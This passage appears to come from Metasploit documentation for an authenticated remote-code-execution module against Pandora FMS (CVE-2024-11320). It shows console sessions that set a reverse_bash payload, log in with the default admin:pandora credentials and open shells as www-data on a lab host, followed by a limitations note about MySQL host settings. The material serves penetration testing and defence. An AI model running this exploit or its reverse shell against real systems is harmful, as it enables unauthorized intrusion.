 ```msf
[*] Meterpreter session 28 opened (192.168.201.8:4444 -> 192.168.201.6:59242) at 2024-12-22 10:35:05 +0000
[+] Payload is successful removed from LDAP configuration.

meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter > pwd
/var/www/html/pandora_console
meterpreter >
```
###  Pandora FMS v7.0NG.777 on Ubuntu 22.04 - Unix/Linux Command target
Attack scenario: use the default admin credentials (admin:pandora) of the Pandora FMS application
to gain the privileges for the RCE.
```msf
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > set target 1
target => 1
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > set password pandora
password => pandora
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > exploit
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Pandora FMS version v7.0NG.777
[*] Trying to log in with admin credentials admin:pandora at the Pandora FMS Web application.
[*] Succesfully authenticated at the Pandora FMS Web application.
[*] Saving admin credentials at the msf database.
[*] Executing Unix/Linux Command for cmd/unix/reverse_bash
[*] Command shell session 29 opened (192.168.201.8:4444 -> 192.168.201.6:37616) at 2024-12-22 10:57:58 +0000
[+] Payload is successful removed from LDAP configuration.

pwd
/var/www/html/pandora_console
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux cuckoo 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
```

## Limitations
In older versions of Pandora FMS, you might run into error 'Unable to login from this host due to policy' if you try to connect
to the MySQL database with the default database credentials.
This is caused by the restrictive host settings at the MySQL database which is default set to `localhost` and `127.0.0.1`.
You can check this with the SQL command below if you have local access to the database.
```
SELECT host FROM mysql.user WHERE user = "pandora";
+-----------+
| host      |
+-----------+
| 127.0.0.1 |
| localhost |
+-----------+
```